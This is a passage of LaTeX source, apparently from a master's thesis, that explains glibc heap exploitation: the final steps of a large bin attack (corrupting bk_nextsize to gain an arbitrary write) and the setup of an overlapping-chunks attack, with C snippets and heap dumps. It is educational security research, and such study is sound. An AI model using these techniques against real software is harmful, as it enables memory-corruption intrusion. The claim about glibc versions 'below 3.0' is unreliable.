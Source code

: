 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\ub{unsorted bins}
\newcommand*\lb{large bins}
\begin{document}
In the third step, we freed the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted\_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large\_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}
 
The next step is to put the target address - 0x20 in the p1->bk\_nextsize . As we mentioned before, Just \lb{} chunk chunks use this pointer, they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}
 
The last step is to allocate a bigger chunk, so, p2 moves to a larger chunk. When p2 move to large chunk, the heap manager write the address of p2 inside p1->bk\_nextsize->fd\_nextsize as the code of \libc{} show:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}
 
This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010  31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110  78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210  33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}
\end{document}
